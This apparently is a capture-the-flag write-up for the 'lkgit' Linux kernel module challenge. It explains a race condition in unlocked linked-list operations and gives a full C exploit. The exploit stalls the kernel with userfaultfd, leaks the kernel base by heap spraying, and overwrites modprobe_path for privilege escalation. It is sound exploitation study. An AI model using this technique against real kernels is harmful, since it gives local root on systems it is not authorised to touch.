

# lkgit

*modprobe_path & userfaultfd & race contidition*

## vulnerability

The vulnerability is quite straight forward. Operations to the `hash_object` linked lists are not locked, thus read and write to the linked list may cause a race condtion. For example, when reading one node by

```c
static long lkgit_get_object(log_object *req) {
	long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
	char hash_other[HASH_SIZE] = {0};
	char hash[HASH_SIZE];
	int target_ix;
	hash_object *target;
	if (copy_from_user(hash, req->hash, HASH_SIZE))
		goto end;

	if ((target_ix = find_by_hash(hash)) != -1) {
		target = objects[target_ix];
		if (copy_to_user(req->content, target->content, FILE_MAXSZ))
			goto end;

		// validity check of hash
		get_hash(target->content, hash_other);
		if (memcmp(hash, hash_other, HASH_SIZE) != 0)
			goto end;

		if (copy_to_user(req->message, target->message, MESSAGE_MAXSZ))
			goto end;
		if (copy_to_user(req->hash, target->hash, HASH_SIZE)) 
			goto end;
		ret = 0;
	}

end:
	return ret;
}
```

we may block the kernel execution using *userfaultfd* at the 3rd access to userspace, which copies the `message` to user space. In the *userfaultfd* handler thread we free this node and spray the kernel with *seq_operations* of *shm* and resume the kernel execution to take the freed chunk. The next copy of `hash` will leak data in these kernel data structures and lead to a kernel load address leaking.


​	Likely, we may cause an AAW when modifying a node by

```c
static long lkgit_amend_message(log_object *reqptr) {
	long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
	char buf[MESSAGE_MAXSZ];
	log_object req = {0};
	int target_ix;
	hash_object *target;
	if(copy_from_user(&req, reqptr->hash, HASH_SIZE))
		goto end;

	if ((target_ix = find_by_hash(req.hash)) != -1) {
		target = objects[target_ix];
		// save message temporarily
		if (copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ))
			goto end;
		// return old information of object
		ret = lkgit_get_object(reqptr);
		// amend message
		memcpy(target->message, buf, MESSAGE_MAXSZ);
	}

	end:
		return ret;
}
```

we block the kernel execution at the 2nd *copy_from_user*, then free the current node. Considering the struct *hash_object* has the same size as *log_object.message*, which is allocated to the kernel heap and its value is fully user-controllable. We invoke a *lkgit_hash_object* in *userfaultfd* thread to take the freed chunk back by a *log_object.message* and put a pointer to *modprobe_path* in it. The pointer will be taken as `target->message` and write what we want to it, giving us the opportunity to overwrite *modprobe_path*.


## exploitation

in the top level we 

1. add a node, then read it. During reading we block kernel execution by *userfaultfd*. In handler thread we free the node by adding a same node, then we spray the kerenl by opening */proc/self/stat*. Then we resume kernel execution, giving us pointers in *seq_operation*
2. add a node again, then we amend it. During amending we block kernel execution. Free the node then take the chunk back with a *log_object.message* by adding a new node. The content of the *message* will be pointer to *modprob_path*, which will be taken as *target->message* when the blocked kernel resumes execution.


The exeloitation is rather simple so I will not explain it step by step

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <string.h>

#include "kernelpwn.h"
#include "src/include/lkgit.h"

#define SPRAYCOUNT 0x20


int fd_lkgit;
unsigned long kernel_load_base;
unsigned long modprobe_path;


// use this function as a template
void* uffd_handler(void* arg){
    struct uffd_msg msg;
    int fault_count = 0;
    unsigned long uffd = (unsigned long) arg;
    char *page = NULL;
    struct uffdio_copy uc;
    unsigned long nread;

    if (page == NULL) {
        page = mmap(NULL, PAGESIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (page == MAP_FAILED) ErrExit("mmap");
    }

    for(;;){
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        // while(1);   // uncomment this if you just need to hang the kernel
        
        switch(fault_count){
            case 0:{
                // leak kernel load base
                hash_object obj1;
                obj1.content = "abcd";
                obj1.message = "ebgh";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj1);
                int spray[SPRAYCOUNT];
                for(int i=0;i<SPRAYCOUNT;i++){
                    spray[i]=open("/proc/self/stat", O_RDONLY);
                    if(spray[i]==-1) ErrExit("[-] open error2");
                }
                for(int i=0;i<SPRAYCOUNT;i++) close(spray[i]);
                break;
            }
            case 1:{
                hash_object obj2;
                obj2.content = "abcd";
                obj2.message = "ebgh";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj2);
                unsigned long buf[4];
                buf[3] = modprobe_path;
                obj2.message = (char*)buf;
                obj2.content = "ijkl";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj2);
                break;
            }
        }

        if(fault_count == 1){
            memcpy(page, "/win.sh\00", 8);
        }
        fault_count++;
        nread = read(uffd, &msg, sizeof(msg));
        uc.src = (unsigned long)page;
        uc.dst = msg.arg.pagefault.address & ~(PAGESIZE - 1);
        uc.len = PAGESIZE;
        uc.copy = 0;
        uc.mode = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uc) == -1) ErrExit("ioctl-UFFDIO_COPY");
    }
}


int main(){
    if((fd_lkgit = open("/dev/lkgit", O_RDWR)) == -1) ErrExit("[-] open error1");
    
    // leak kernel load base
    hash_object obj1;
    obj1.content = "abcd";
    obj1.message = "ebgh";
    ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj1);
    void* hang_mem = get_mem_hang(5);
    log_object* obj2 = (log_object*)(hang_mem+0x1000-0x50);
    memcpy(obj2->hash, obj1.hash, HASH_SIZE);
    obj2 = (log_object*)(hang_mem+0x3000-0x50);
    memcpy(obj2->hash, obj1.hash, HASH_SIZE);
    obj2 = (log_object*)(hang_mem+0x1000-0x50);
    RegisterUserfault(hang_mem, 5, uffd_handler);
    ioctl(fd_lkgit, LKGIT_GET_OBJECT, obj2);
    printf("[*] leak kernel address : 0x%lx\n", *(unsigned long*)&obj2->hash);
    kernel_load_base = *(unsigned long*)&obj2->hash - 0x1adc20;
    modprobe_path = kernel_load_base+0xC3CB20;
    printf("[*] kernel load @ 0x%lx\n", kernel_load_base);
    printf("[*] modprobe_path load @ 0x%lx\n", modprobe_path);

    // overwrite modprobe_path
    obj2 = (log_object*)(hang_mem+0x3000-0x50);
    ioctl(fd_lkgit, LKGIT_AMEND_MESSAGE, obj2);

    system("./trigger");

    return 1;
}
```


​	The struct *log_object* we use to block the kernel execution will always be put like this



​	Thus when the kernel want to read or write to the *log_object.message* filed in the user space, the uffd thread will be trigerred and we will do things there.


### tip

​	When reading the */proc/kallsyms* in the VM, I found that the symbol *modprob_path* does not exist. The way to find it is by debuging the kernel. By putting a break in *call_usermodhelper_setup*, we are able to get the address of the symble by reading the first argument of that call.

​	For more detain reffer to 

1. https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md
2. https://github.com/smallkirby/kernelpwn/blob/master/important_config/KALLSYMS_ALL.md